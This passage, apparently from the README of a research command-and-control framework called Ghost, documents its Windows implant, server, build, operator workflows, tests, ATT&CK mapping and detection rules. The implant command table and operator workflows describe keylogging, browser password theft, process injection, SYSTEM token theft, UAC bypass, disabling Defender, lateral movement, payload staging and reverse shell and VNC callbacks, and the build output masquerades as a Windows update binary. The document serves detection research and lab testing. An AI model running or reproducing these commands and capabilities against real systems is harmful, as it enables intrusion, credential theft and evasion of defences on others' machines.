and a status printer reports live/pending node counts. All CORS preflight is answered from one
place so the dashboard and CLI can talk to the same origin.

### State and durability — `server/db.py`

Sessions, task queues, results, the audit trail and the staged payload live in SQLite behind a
small repository module; the REST responses are unchanged, which is why the protocol suite does
not know the difference. What a restart resets is deliberately limited to the ECDH keypair and
the per-session channel keys — the agent re-handshakes (the path the lab already measures) while
its session row, run id, unacked tasks, results and history come back from disk. Unacknowledged
tasks return to the queue on startup, so at-least-once delivery survives the restart too. Caps
(`result_cap` per session, `task_queue_max`, `audit_cap` overall) are enforced in SQL rather than
in the dict layer. The default path is `:memory:` so importing the module has no side effects;
`--db <path>` (or `GHOST_DB_PATH`, or `simpleserver.sh`) makes it durable. The database is a local
file, **not encrypted at rest**, written 0600 where the OS supports it. Schema changes go through
`PRAGMA user_version` migrations in the same module.

### Audit events

Every operator and agent action is appended to a capped trail with timestamp, client IP,
action and detail — in SQLite when a database is configured, in memory otherwise. Fourteen
event types, all of them emitted by named code paths in
`server/c2_server.py`:

| Fires when | Events |
|---|---|
| Tasking | `task_queued` · `task_sent` · `task_ack` |
| Results | `result` · `result_dup` · `get_results` |
| Channel integrity | `replay_rejected` · `beacon_rehandshake` |
| Enrollment and lifecycle | `session_accepted` · `session_rejected` · `kill_session` |
| Payload staging | `payload_uploaded` · `payload_downloaded` |
| Authentication | `auth_fail` |

The trail is the primary artifact for the thesis: it proves at-least-once delivery, dedup and
rejection behavior without packet captures.

---

## 10. Implant command reference

The dashboard mirrors this table in its built-in command reference (`?` in the header), including the
per-command telemetry column; the C++ command table, this section and that panel are the three places
the surface is defined.

Anything not matched by the table below is executed in a **persistent `cmd.exe` shell** — the
implant owns the shell state, so the working directory and `set` variables survive across tasks
(`cd` is intercepted and tracked; a deleted cwd resets and retries).

| Command | Description |
|---|---|
| `<any shell command>` | Persistent cmd.exe; `cd X`, bare `D:` and `set VAR=v` carry over to the next task |
| `ps` / `!ps` | Process listing |
| `ps1 <line>` · `psreset` | Persistent interactive PowerShell session; restart it |
| `!screenshot [scale]` | Full-screen capture, JPEG streamed as base64 (automatic BMP fallback) |
| `!vnc <host[:port]>` | **Reverse VNC** — dials out (default port 5500); have a viewer listening in **reverse/listen mode** before tasking (RFB 3.3, no auth) |
| `!live [scale]` · `!input m <nx> <ny> <btns>` · `!input k <vk> <down>` | Beacon-paced live frame / synthetic mouse and keyboard input |
| `keylog_start` · `keylog_dump` · `keylog_stop` | Keystroke capture lifecycle |
| `!clipboard [get\|set <text>]` | Clipboard read / write |
| `!browser` | Edge/Chrome saved-password recovery (see [capture modules](#6-tradecraft-internals)) |
| `download <url> <dest>` | Fetch a file on the implant |
| `upload <src> <dest>` | Stage a local file for operator retrieval |
| `!files [path]` · `!getfile <path>` | Directory listing / pull a staged file through `/payload` |
| `!inject <pid> <hex bytes>` | Load raw shellcode into a process via the direct-syscall remote-thread chain |
| `!inject-apc <pid> <hex bytes>` | Same payload, delivered as an APC to one of the target's threads |
| `!inject-stomp <pid> <hex bytes> [dll]` | Module stomping — payload runs from the `.text` of a signed System32 DLL loaded into the target (default `amsi.dll`), image-backed rather than private RX |
| `!migrate [pid]` | Re-spawn the implant as a PPID-spoofed child of `pid` (default: a SYSTEM `svchost.exe`) and exit cleanly |
| `steal_token` | Locates `winlogon.exe`, duplicates its primary token and impersonates SYSTEM (**no arguments**) |
| `!reverse <ip[:port]>` | Reverse TCP shell; default port **4444** matches `c2_cli.py listen` |
| `!kill <pid>` | Terminate a process |
| `!env` · `!getpid` | Environment block dump / implant PID |
| `!doh [on\|off\|status]` | DNS-over-HTTPS fallback: report endpoint/last resolved address, or toggle it for the experiment |
| `!defender status` | Defender posture as JSON (`Get-MpComputerStatus` + `Get-MpPreference`: real-time/behavior/IOAV/on-access state, tamper-protection source, signature age, exclusion lists, ASR exclusions) |
| `!defender exclude <add\|remove> <path\|proc\|ext> <value>` | Exclusion via the registry keys Defender reads (`Exclusions\Paths\|Processes\|Extensions`) |
| `!defender exclude <ps-add\|ps-remove> <path\|proc\|ext> <value>` | Same exclusion via `Add-MpPreference` / `Remove-MpPreference` — the cmdlet arm, with different telemetry |
| `!defender disable <realtime\|behavior\|ioav\|script\|all>` | Disable monitoring via `Set-MpPreference` **and** the policy keys, then report whether it took (tamper protection commonly blocks it — that is a result, not an error) |
| `!defender asr <add\|remove> <path>` | ASR exclusions (`-AttackSurfaceReductionOnlyExclusions`) |
| `!defender restore` | Re-enables monitoring and clears the policy values the module set; never removes exclusions implicitly |
| `!diskread [lba]` | **Read-only** raw disk access: one 512-byte sector from `\\.\PhysicalDrive0` (default sector 0 = MBR), with boot signature and partition-table entries. Produces the T1006 / Sysmon EID 9 telemetry; there is no write path |
| `!uac <command>` | UAC bypass through the ms-settings auto-elevate handler: plants the `HKCU\...\ms-settings\Shell\Open\command` hijack, launches `fodhelper.exe`, then removes the keys. Reports the telemetry it produced (EID 13 + EID 1) |
| `!service <create\|delete\|start\|stop> <name> [binPath]` | Windows service control via the SCM API (T1543.003); `create` defaults `binPath` to the implant's own path, and delete/start/stop only touch services you name |
| `!lsass` | Bounded LSASS access + read **statistics** (T1003.001): enables `SeDebugPrivilege`, opens with `0x1010`, reads ≤4 MB in 64 KB chunks and reports region/byte counts. No dump file, no credential parsing |
| `!lateral <wmi\|winrm\|smb> <host> <command>` | Lateral movement: remote WMI `Win32_Process.Create`, WinRS remote shell, or an admin-share session plus a remote scheduled task running the command as SYSTEM. Authenticates with the caller's current token (matching local account or domain); prints the revert commands, and cleans up nothing implicitly |
| `!stage <pid> \| self \| info` | **Second stage**: fetch the server-staged payload (`payload upload`) over the C2 channel and execute it — remote-thread injection into `<pid>` (EID 8/10, covered), in-process execution (`self`, no event — documented gap, and a faulty payload takes the implant with it), or `info` for size + SHA-256 without executing |
| `!shell [off]` | Rapid-poll mode: beacon drops to 1 s for interactive use; `!shell off` restores the default interval |
| `sleep <sec>` | Override the beacon interval |
| `!uninstall` | Remove all persistence vectors and exit cleanly |
| `exit` | Clean shutdown (worker returns `0xDEAD`, supervisor stops restarting) |

> **Visibility demos.** `!prank <text>` / `!prank off` swap the wallpaper and drop a desktop
> `READ_ME` note; `!popups [text]` / `!popups off` shows demo popups. Both exist purely to show an
> audience that the operator held full desktop control, are fully reversible, touch no files beyond
> a wallpaper bitmap and a text note, and are **outside** the ATT&CK-mapped research scope.

---

## 11. Build guide

### One-time toolchain

```bash
sudo ./build.sh --setup     # apt / dnf / pacman are all detected
chmod +x build.sh           # if cloned without the exec bit
```

Windows hosts can build the same way under WSL; the implant itself only *runs* on Windows x64.

### Build modes

```bash
./build.sh                 # release: -O2, _FORTIFY_SOURCE=2, stripped, PE timestamp randomized
./build.sh --debug         # -O0 -g3 -DDEBUG -DGHOST_DEBUG: verbose debug log, sandbox checks off
./build.sh --clean         # remove build/
```

| Stage | Detail |
|---|---|
| Resource compile | `windres resources/ghost.rc` → version info, manifest, embedded `wall.jpg` as `RCDATA` |
| Compile | C++17, `UNICODE`, `_WIN32_WINNT=0x0A00`, `-fno-rtti`, function/data sections, `-fstack-protector-strong`, static libstdc++/libgcc |
| Link | `-Wl,--gc-sections --nxcompat --dynamicbase --high-entropy-va` against `ntdll ws2_32 user32 advapi32 ole32 oleaut32 wbemuuid bcrypt crypt32 winhttp dnsapi shlwapi gdi32 gdiplus shell32` |
| Post | `strip --strip-all` + remove `.comment`/`.note`; randomize the PE `TimeDateStamp` |

The build is warning-clean under `-Wall -Wextra` (a few specific warnings are silenced deliberately);
CI fails if it stops being so. Output is a single `build/WindowsSecurityUpdate.exe`.

---

## 12. Configuration reference

No operational value is hard-coded at a call site — implant values are set at build time, and
server values route through one config dictionary.

### Implant (build-time macros / `build.sh` inputs)

| Knob | Purpose | Default |
|---|---|---|
| `C2_HOST` / `C2_PORT` | C2 endpoint baked into the binary | prompted; port 443 |
| `GHOST_BEACON_TOKEN` | Implant→server shared secret (server must match) | prompted; enter blank to generate and print a random one |
| `GHOST_BEACON_MIN` / `GHOST_BEACON_MAX` | Jitter bounds, seconds (validated `3 ≤ min ≤ max`) | 18 / 24 |
| `GHOST_DOH_URL` | DoH resolver endpoint for the fallback transport; must be `https://` (IP literal by default, so it does not need the resolution it replaces) | `https://1.1.1.1/dns-query` |
| `GHOST_C2_HOST` / `GHOST_C2_PORT` / `GHOST_BEACON_TOKEN_W` | Raw `-D` macros the script emits | set by `build.sh` |
| `GHOST_SALT`, `GHOST_K0..K3` (`ghostcore.hpp`) | Build salt + rotating key feeding the per-string keystream seed — change per campaign build | salt `5D3A9F17C4B28E60`, key `A7 3E C1 58` |
| `CMD_OUTPUT_MAX` / `CMD_TIMEOUT_MS` | 65536 chars of text result before truncation / 30 s per command | `include/config.hpp` |
| `MAX_FAILURES` / `BACKOFF_FACTOR` / `BACKOFF_MAX_SEC` | The live failure-backoff ladder in `BeaconFailureBackoff` (`src/c2.cpp`): 5 / 3 / 1800 s → 18, 54, 162, 486, then 1458 s held | `include/config.hpp` |
| `DOH_IP_TTL_SEC` / `DOH_FAIL_BACKOFF_SEC` | DoH fallback policy (`src/c2.cpp`): how long a literal that carried a request leads, and the minimum gap between failed resolutions | 300 / 60 s (`include/config.hpp`) |

### Server

```bash
python server/c2_server.py --config ghost.json --tls
```

```json
{
  "beacon_token":   "set-me",
  "operator_token": "set-me",
  "dashboard_user": "admin",
  "dashboard_pass": "set-me",
  "auto_accept":    false,
  "result_cap":     500,
  "audit_cap":      1000,
  "session_ttl":    7200,
  "task_queue_max": 64,
  "payload_max":    33554432,
  "db_path":        "server/ghost.db"
}
```

Precedence: **built-in defaults < `--config` file < environment < CLI flags.**
Only `GHOST_BEACON_TOKEN`, `GHOST_OPERATOR_TOKEN`, `GHOST_DASHBOARD_USER`,
`GHOST_DASHBOARD_PASS` and `GHOST_DB_PATH` are read from the environment; caps and TTLs come from
the config file, and CLI flags win over both. Unknown keys in the config file are rejected rather
than ignored.

| Default | Value | Note |
|---|---|---|
| `beacon_token` / `operator_token` | `change-me-beacon` / `change-me-operator` | **Change before running** — defaults are published in this file |
| `dashboard_user` / `dashboard_pass` | `admin` / `admin` | Dashboard login only |
| `result_cap` / `audit_cap` | 500 / 1000 | Ring-buffer sizes; oldest entries are dropped |
| `session_ttl` | 7200 s | Janitor prunes idle sessions |
| `task_queue_max` | 64 per session | Refuses unbounded tasking |
| `payload_max` | 32 MiB | Also raises Flask `MAX_CONTENT_LENGTH` by 4 KiB of headroom |

> Secrets rotate at runtime with `--beacon-token` / `--operator-token` / `--password`.
> Changing the beacon token invalidates already-built implants — rebuild to match.

---

## 13. Lab walkthrough

1. **Isolate.** Dedicated hypervisor network (host-only or VLAN), no production credentials, a
   clean snapshot before every run, and packet capture (`tcpdump`/`rkavd`/Wireshark) on the lab segment.
2. **Build.** `C2_HOST=<tunnel> ./build.sh`, note the beacon token it prints.
3. **Serve.** Start `c2_server.py --tls --beacon-token <…> --operator-token <…>`, expose via `ngrok http 8080`.
   Enable TLS because the implant always speaks HTTPS; skip `--auto-accept` to practice enrollment.
4. **Detonate.** Copy the implant into the lab VM and run it as the account you want to observe
   (`asInvoker` — no UAC prompt; run elevated to exercise the elevated persistence and Defender paths).
5. **Emulate.** Walk the [capability matrix](#16-mitre-attck-mapping) row by row, one technique per task.
6. **Collect.** Sysmon + ETW + `procmon` + PCAP for each technique; drain results with `export`.
7. **Detect.** Write or validate SIEM rules against the telemetry. Record what fired and what stayed silent.
8. **Report.** Every technique carries an ATT&CK id, so results roll straight into a coverage matrix.
9. **Clean up.** `!uninstall`, then restore the VM snapshot.

---

## 14. Operator workflows

**First session of a run (manual enrollment).**

```bash
python server/c2_cli.py --url https://<tunnel> --token <operator-token> watch
python server/c2_cli.py sessions                       # note the new pending id
python server/c2_cli.py shell <sid>                    # after accepting in the dashboard
```

**Interactive shell with fast turnaround.**

```text
ghost(3f9a1c22)> !shell                # beacon drops to 1s
ghost(3f9a1c22)> cd C:\Users\lab
ghost(3f9a1c22)> set WHO=me
ghost(3f9a1c22)> echo %WHO%            # state survived across tasks
ghost(3f9a1c22)> !shell off
```

**Detection test batch, then export.**

```bash
python server/c2_cli.py batch <sid> "ps;!screenshot;keylog_start;!clipboard"
sleep 60
python server/c2_cli.py results <sid> --json > run_01.json
python server/c2_cli.py audit --limit 200 --json >> run_01.json
```

**Reverse shell + desktop.**

```bash
python server/c2_cli.py listen &                  # operator listener on 4444
python server/c2_cli.py task <sid> "!reverse <operator-ip>"   # same default, no port needed
python server/c2_cli.py task <sid> "!vnc <operator-ip>:5500"
# the operator side must already be listening:
#   vncviewer -listen            (viewer in reverse/listen mode on 5500), or
#   ngrok tcp 5500               in front of that listener for a remote operator
```

---

## 15. Testing and CI

### Local suites

| Command | Coverage |
|---|---|
| `python tests/test_protocol.py` | **36 checks** against a live server instance: ECDH handshake, encrypt/decrypt round trips with tricky payloads, task/result flow, `tid` delivery + ack, at-least-once retry, duplicate-result dedup, replay-counter rejection, re-handshake after server restart, and wire-Base64 canonicality against the implant's strict decoder |
| `g++ -std=c++17 -I include tests/test_core.cpp -o core && ./core` | **35 unit checks** on the platform-free core (`include/ghostcore.hpp`): base64 vectors and strictness, hex parsing, JSON escaping, keystream properties — runs on any OS with a C++17 compiler, and in CI |
| `python tests/test_persistence.py` | **37 checks** against the SQLite store: sessions, task queues, results, audit trail and staged payload survive a restart; unacked tasks are re-served; result caps and dedup hold across restarts; a killed session no longer corrupts `/sessions` |
| `python tests/check_strings.py <exe> --secret <token> …` | Scans a release artifact for build secrets and for the strings that are supposed to be obfuscated — the mechanical check behind the "no plaintext in the binary" claim |
| `powershell -File tests/test_browser.ps1` | `!browser` recovery logic against a **synthetic** profile in `%TEMP%` — one `v10` AES-GCM row and one legacy DPAPI row; no real browser data is read or touched |
| `python tests/verify_chunks.py` | Asserts the XOR chunks embedded in `src/c2.cpp` reconstruct `tests/browser_dump.ps1` **byte-for-byte** |
| `python tests/gen_browser_chunks.py` | Regenerates those chunks — run it after editing `browser_dump.ps1`, the PowerShell file is the single source of truth |

`tests/browser_dump.ps1` is the tested, readable origin of the implant's embedded recovery script;
the implant ships the compiled-out chunk form of its library section.

### Continuous integration

[`.github/workflows/ci.yml`](.github/workflows/ci.yml) gates every push to `main` and every pull
request with four jobs on `ubuntu-latest`:

1. **Protocol tests** — Python 3.11, install `server/requirements.txt`, run `tests/test_protocol.py`.
2. **Cross-compile** — install `mingw-w64`, build a release implant with placeholder values
   (`ci-build.example.invalid`, non-operational token), assert the artifact exists and is a
   Windows PE via `file`, then run `tests/check_strings.py` against it to prove the build-time
   token, the C2 host, the DoH endpoint and the protocol/payload strings did not survive in the
   clear.
3. **Detection artifacts** — install `detections/requirements.txt`, run
   `detections/check_coverage.py`, which validates every Sigma rule and refuses to pass if a
   technique in the section 16 matrix is neither covered by a rule nor recorded as a known
   telemetry gap. It also validates the collector's filter tags against the documented Sysmon
   event table, so a plausible-looking mapping mistake (treating event id 22 as a file
   download, or 25 as process access) fails CI instead of shipping a rule that silently never
   fires.
4. **Core unit tests** — compile `tests/test_core.cpp` with `g++ -std=c++17 -Wall -Wextra -Werror`
   and run it. The header it covers, `include/ghostcore.hpp`, has no Windows dependency, so the
   base64 codec, hex parser, JSON escaping and XS/XSW keystream are tested natively — no
   cross-toolchain and no WINE involved.

A green CI therefore means "the channel still behaves correctly", "the implant still builds
warning-clean", "the pure logic still passes its unit tests", and "the detection layer still
accounts for itself", without any live implant involved.

### Detection layer

[`detections/`](detections/) holds the defensive half: a Sysmon collection profile, 22 Sigma
rules mapped to the section 16 matrix, and the coverage gate CI runs. Start with
[`detections/README.md`](detections/README.md), which states plainly which techniques these rules
cannot see and why.

---

## 16. MITRE ATT&CK mapping

Every implanted technique is a detection test case — validate an EDR against one row at a time.

The rules implementing this mapping live in [`detections/sigma/`](detections/sigma/), with the
collector profile at [`detections/sysmon/sysmon-ghost.xml`](detections/sysmon/sysmon-ghost.xml).
`python detections/check_coverage.py --report` prints, per row, whether a rule covers it or the
reason it cannot be detected from Windows event telemetry.

| Technique | ATT&CK | Module |
|---|---|---|
| HTTPS application-layer C2 beacon | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | `c2.cpp` |
| DNS-over-HTTPS fallback resolution (RFC 8484) | [T1071.004](https://attack.mitre.org/techniques/T1071/004/) | `c2.cpp`, `doh.cpp` |
| Jittered beacon timing / scheduled transfer | [T1029](https://attack.mitre.org/techniques/T1029/) | `config.hpp`, `c2.cpp` |
| Encrypted channel — symmetric + asymmetric | [T1573.001](https://attack.mitre.org/techniques/T1573/001/) · [T1573.002](https://attack.mitre.org/techniques/T1573/002/) | `utils.cpp`, `c2.cpp` |
| Protocol / User-Agent impersonation | [T1001.001](https://attack.mitre.org/techniques/T1001/001/) | `c2.cpp` |
| Direct + indirect syscalls (Hell's Gate, Halo's Gate, ntdll `syscall; ret` reuse) | [T1106](https://attack.mitre.org/techniques/T1106/) | `syscalls.cpp` |
| Obfuscated strings, hashed imports, stripped PE | [T1027](https://attack.mitre.org/techniques/T1027/) | `obfuscate.hpp`, `build.sh` |
| Process injection (remote thread) | [T1055](https://attack.mitre.org/techniques/T1055/) | `injection.cpp` |
| APC injection | [T1055.004](https://attack.mitre.org/techniques/T1055/004/) | `injection.cpp` |
| Module stomping (image-backed shellcode) | [T1055](https://attack.mitre.org/techniques/T1055/) | `injection.cpp` |
| Parent PID spoofing | [T1134.004](https://attack.mitre.org/techniques/T1134/004/) | `injection.cpp` |
| Token duplication + impersonation (winlogon) | [T1134.001](https://attack.mitre.org/techniques/T1134/001/) | `c2.cpp` |
| Registry Run key persistence (HKCU/HKLM) | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) | `persistence.cpp` |
| Scheduled task persistence | [T1053.005](https://attack.mitre.org/techniques/T1053/005/) | `persistence.cpp` |
| WMI event subscription persistence | [T1546.003](https://attack.mitre.org/techniques/T1546/003/) | `persistence.cpp` |
| Masquerading as a Microsoft binary (name, version info, PEB path) | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | `ghost.rc`, `ghost.manifest`, `main.cpp` |
| Hidden + system install file | [T1564.001](https://attack.mitre.org/techniques/T1564/001/) | `main.cpp` |
| Hidden window process creation (`SW_HIDE`, `CREATE_NO_WINDOW`) | [T1564.003](https://attack.mitre.org/techniques/T1564/003/) | `main.cpp`, `c2.cpp` |
| AMSI / ETW patching, Defender exclusion | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | `evasion.cpp` |
| Defender tampering: exclusions (registry + cmdlet), monitor disable (cmdlet + policy keys), ASR exclusions, restore | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | `defender.cpp` |
| Defender posture discovery (`Get-MpComputerStatus` before/after every action) | [T1518.001](https://attack.mitre.org/techniques/T1518/001/) | `defender.cpp` |
| UAC bypass via the ms-settings auto-elevate handler | [T1548.002](https://attack.mitre.org/techniques/T1548/002/) | `privesc.cpp` |
| Service creation with a user-writable binary | [T1543.003](https://attack.mitre.org/techniques/T1543/003/) | `privesc.cpp` |
| LSASS access + bounded read (statistics only — no dump, no parser) | [T1003.001](https://attack.mitre.org/techniques/T1003/001/) | `privesc.cpp` |
| Remote WMI process creation | [T1047](https://attack.mitre.org/techniques/T1047/) | `lateral.cpp` |
| In-memory second stage (fetch over C2 + execute) | [T1105](https://attack.mitre.org/techniques/T1105/) | `c2.cpp` |
| WinRM remote execution (winrs / wsmprovhost) | [T1021.006](https://attack.mitre.org/techniques/T1021/006/) | `lateral.cpp` |
| SMB admin share + remote scheduled task | [T1021.002](https://attack.mitre.org/techniques/T1021/002/) | `lateral.cpp` |
| Direct volume read (MBR / boot-sector inspection) | [T1006](https://attack.mitre.org/techniques/T1006/) | `disk.cpp` |
| Disk structure wipe (MBR / partition table) | [T1561.002](https://attack.mitre.org/techniques/T1561/002/) | *gap — no write path exists, by design* |
| Bootkit (MBR) | [T1542.003](https://attack.mitre.org/techniques/T1542/003/) | *gap — same raw-write blind spot* |
| Sandbox / analysis-environment checks | [T1497.001](https://attack.mitre.org/techniques/T1497/001/) · [T1497.003](https://attack.mitre.org/techniques/T1497/003/) | `evasion.cpp`, `main.cpp` |
| Hardware-breakpoint clearing | [T1622](https://attack.mitre.org/techniques/T1622/) | `evasion.cpp` |
| Single-instance execution guard | [T1480.001](https://attack.mitre.org/techniques/T1480/001/) | `main.cpp` |
| Self-deletion of the original dropper | [T1070.004](https://attack.mitre.org/techniques/T1070/004/) | `main.cpp` |
| PE compile-timestamp randomization (build-time) | [T1070.006](https://attack.mitre.org/techniques/T1070/006/) | `build.sh` |
| Persistence removal (`!uninstall`) | [T1070.008](https://attack.mitre.org/techniques/T1070/008/) | `c2.cpp`, `persistence.cpp` |
| Keylogging via low-level hook | [T1056.001](https://attack.mitre.org/techniques/T1056/001/) | `keylog.cpp` |
| Browser credential store extraction | [T1555.003](https://attack.mitre.org/techniques/T1555/003/) | `c2.cpp` |
| Screen capture | [T1113](https://attack.mitre.org/techniques/T1113/) | `c2.cpp` |
| Clipboard capture | [T1115](https://attack.mitre.org/techniques/T1115/) | `c2.cpp` |
| Ingress tool transfer / file staging | [T1105](https://attack.mitre.org/techniques/T1105/) | `c2.cpp` |
| Data from local system | [T1005](https://attack.mitre.org/techniques/T1005/) | `c2.cpp` |
| Remote desktop control (reverse VNC, synthetic input) | [T1021.005](https://attack.mitre.org/techniques/T1021/005/) | `vnc.cpp` |

> IDs were checked against the Enterprise matrix when the modules were written. Re-verify against
> the current matrix before citing them in the thesis — ATT&CK renumbers and renames periodically.

---

## 17. Detection guidance

The point of the project. For each mechanism, the artifact a defender should be able to find.

| Hunt for | Where to look | Suspicious because |
|---|---|---|
| `WindowsSecurityUpdate.exe` on disk or in a process list | Sysmon EID 1/11, asset inventory | Not a real Windows binary; real paths are `System32`/`Microsoft\Windows\…` — the `%APPDATA%\Microsoft\WindowsUpdate` location is the tell |
| Image loaded from `%APPDATA%` with Microsoft version metadata | Sysmon EID 1 + `FileVersion`/`CompanyName` | Signed-metadata look without an Authenticode signature |
| Process whose PEB path ≠ its real on-disk path | EDR process tree vs. filesystem correlation | Deliberate `ImagePathName` overwrite |
| `CreateRemoteThread` / `NtCreateThreadEx` into `svchost`, `explorer`, `winlogon` | Sysmon EID 8, ETW `Microsoft-Windows-Kernel-Process` | Cross-process write + start is the injection signature |
| A remote thread whose start address resolves into a module's `.text` rather than an exported entry, and an image-backed page flipped writable and back | EDR hook-integrity checks, ETW-TI `NtProtectVirtualMemory` tracing | Module stomping leaves Sysmon little that is distinctive (EID 8 fires, EID 7 shows the host DLL load); the code-page protection dance and the thread start at a module base are the kernel-side tells |
| Remote allocation that lands `PAGE_READWRITE` and is then flipped to `PAGE_EXECUTE_READ` | ETW `Kernel-Processthread`, `NtProtectVirtualMemory` tracing | The write-then-protect dance in a **foreign** process is the injection signature; GDI/heap code does not do it |
| Child process with an implausible parent (e.g. `cmd.exe` parented to `svchost.exe`) | Process-tree analytics | PPID spoofing changes only the claimed parent |
| `amsi.dll` / `etw.dll` text-page modifications in a scanned process | EDR hook-integrity checks, `VirtualProtect` call tracing | Patched to `xor eax,eax; ret` / `ret` |
| `Add-MpPreference` / `ExclusionPath` registry writes, tamper-protection keys | Sysmon EID 12/13/14 on `Microsoft\Windows Defender` | Exclusion added by a non-management process |
| WMI `NTEventFilter` / `EventConsumer` / `FilterToConsumerBinding` creation | ETW `Microsoft-Windows-WMI-Activity/Operational` (event id 11 logs new bindings), repository deltas | Permanent subscriptions are the classic WMI persistence |
| `schtasks.exe /Create /TN MicrosoftEdgeUpdateTaskUser` with `/RL HIGHEST` | Sysmon EID 1 command line | Task name mimics Edge but the action path is user-writable |
| Run-key writes referencing `%APPDATA%` | Registry EID 12/13/14 | User-writable autostart target |
| Beacon at a 18–24 s jitter with a `Microsoft-WNS/10.0` User-Agent | Network/egress telemetry, JA3 + SNI baselines | Real WNS traffic does not post encrypted JSON to an ngrok domain |
| DNS lookup of a fresh tunnel domain from a non-browser process | Sysmon EID 22 (`DnsQuery`) + DNS logs | WinHTTP resolves in-process, so the query is attributed to the implant; the queried name changes per campaign, the querying image does not |
| Connection to a public DoH resolver (`1.1.1.1`, `8.8.8.8`, …) from a non-browser image | Sysmon EID 3 + firewall/NetFlow | The DoH fallback resolves the C2 name inside TLS, so no `DnsQuery` event exists for that lookup and the resolver connection is the compensating signal (`detections/sigma/command_and_control_doh_resolver_unknown_image.yml`) |
| Process access to `winlogon.exe` with a query-only mask (`0x400` / `0x1000`) from an image outside `System32` | Sysmon EID 10 (`ProcessAccess`) | Token theft opens winlogon only to duplicate its primary token; the token calls themselves emit nothing, so the (target, mask) pair is the signal (`detections/sigma/credential_access_token_access_winlogon.yml`) |
| Defender posture read (`Get-MpComputerStatus`, `Get-MpPreference`) before tampering | Sysmon EID 1 (powershell child of a non-interactive image) + PowerShell 4104 when enabled | The read itself is discovery (T1518.001) and the preparation step of every `!defender` action; the cmdlet text is hidden by `-EncodedCommand`, so the process creation is the Sysmon-visible part and 4104 is the channel that recovers the rest |
| Writes to `Policies\Microsoft\Windows Defender` (disable vectors) from a non-system image | Sysmon EID 12/13/14 | A separate hive branch from `\Exclusions\`; nothing legitimate outside GPO/MDM tooling writes there at runtime (`defense_evasion_defender_policy_write.yml`) |
| Raw access to `\\.\PhysicalDrive0` / a volume device from an unfamiliar image | Sysmon EID 9 (`RawAccessRead`) | MBR/boot-sector inspection is the precursor to disk-structure tampering; doing it from a user-writable path is the tell (`discovery_direct_volume_access_unknown_image.yml`). The overwrite itself has no Sysmon event — see the T1561.002/T1542.003 gaps |
| `HKCU\Software\Classes\ms-settings\Shell\Open\command` written, followed by an auto-elevating helper | Sysmon EID 13 + EID 1 | Auto-elevate UAC bypass; the registry write is attributed to the implant's image even when the keys are cleaned up a second later (`defense_evasion_uac_bypass_auto_elevate.yml`) |
| Service `ImagePath` pointing into `AppData`, `ProgramData`, `Users\Public` or `Temp` | Sysmon EID 13 on `\CurrentControlSet\Services\...\ImagePath` | No legitimate installer points a service at a user-writable binary; the value is the signal, not the writing process (`persistence_service_user_writable_binary.yml`) |
| `lsass.exe` opened with `0x1010` / `0x1410` from an image outside `System32` and `Program Files` | Sysmon EID 10 (`ProcessAccess`) | Memory-read rights against LSASS are the access half of credential dumping; the rule scores the access pattern, not what the tool does with the bytes (`credential_access_lsass_process_access.yml`) |
| A process whose parent is `WmiPrvSE.exe`, and/or TCP 135 from a non-Microsoft image | Sysmon EID 1 (parent) + EID 3 (port 135) | Remote WMI executes its child from the provider host — that parent is the durable signal regardless of the client (`lateral_movement_wmi_remote_process_create.yml`) |
| `winrs -r:` on the source, or a process parented by `wsmprovhost.exe` on the target | Sysmon EID 1 | WinRM remote execution, seen from both ends; benign on managed fleets, near-empty on a lab VM without orchestration (`lateral_movement_winrm_remote_execution.yml`) |
| `net use \host\C$` followed by `schtasks /S <host> /Create` from a non-management image | Sysmon EID 1 (both command lines) | The copy-schedule-run lateral chain over SMB; the target-side process appears under the task scheduler, so the source command lines carry the attribution (`lateral_movement_smb_admin_share_execution.yml`) |
| A staged payload fetched by an agent immediately before an unexplained thread or process | C2 audit trail (`payload_uploaded` → `payload_downloaded`) + Sysmon EID 8/10 | The fetch looks exactly like a beacon, so the sequence in the audit trail is the artifact; the in-process mode leaves nothing on the host at all |
| High-entropy short POST bodies to a new tunnel domain at a fixed cadence | DNS + proxy logs, TLS SNI | Randomized ciphertext + regular intervals ≈ C2 |
| `SetThreadExecutionState` from an unsigned GUI-subsystem binary | ETW / API monitoring | Sleep evasion in a "update service" helper |
| Debug registers cleared (`Dr7 = 0`) on a new thread | EDR anti-debug telemetry | Anti-instrumentation |
| A `syscall` instruction inside ntdll whose caller never passed through ntdll's entry point | ETW-TI, kernel callbacks, stack-integrity sensors | The stub jumps into ntdll's own `syscall; ret`, but the return address on the stack points at the trampoline's private RX page, not at a signed module — the unbacked frame is the tell |
| Chunks of the embedded PowerShell script in cleartext | `strings` / YARA against the binary; Sysmon EID 1 command line once the script runs | If the compiler did not fold an `XSW` construction, the payload survives in `.rdata`; `tests/check_strings.py` is the build-time tripwire for exactly this |
| `WH_KEYBOARD_LL` hook installed by an unfamiliar process | ETW / hook enumeration | Keylogging without a product purpose |
| `winsqlite3.dll` loaded by an Office/update-looking binary, reading `Login Data` | Sysmon EID 7 (image load) + 11 | Stock-Windows credential theft path — no dropped tools |
| `DPAPI` `CryptUnprotectData` calls in an unusual process | ETW `Microsoft-Windows-Crypto-DPAPI` | Master-key unwrap should be rare and attributable |
| Outbound TCP to an operator-controlled port (reverse VNC/shell) | Egress + NetFlow | Dial-out control channel bypasses inbound restrictions |
| Self-deletion of the just-executed original binary | Sysmon EID 23 FileDelete | Dropper cleanup signature |

---

## 18. Known limitations and scope

Documented deliberately — these are part of the thesis, not bugs to hide.

| Limitation | Detail |
|---|---|
| **Server identity is not authenticated** | The handshake authenticates the *beacon token*, not the server, and WinHTTP is deliberately configured with `SECURITY_FLAG_IGNORE_UNKNOWN_CA`, `_CERT_DATE_INVALID`, `_CERT_WRONG_USAGE` and `_CERT_CN_INVALID` — so an active HTTPS-MITM in front of the server can interpose. Channel encryption defends against passive observers and the tunnel provider, not an active adversary. Certificate pinning is on the [roadmap](#22-roadmap). |
| **The DoH fallback cannot choose its SNI** | The fallback connects to the literal address the resolver returned, and WinHTTP derives TLS SNI from the connect target with no supported override. A bare VPS endpoint accepts that (the original host still travels in the `Host` header); an edge that routes TLS by SNI — ngrok, Cloudflare custom hostnames — is expected to reject it. Untested against a live tunnel so far; the fallback is a resolution path only, not a second C2 protocol. |
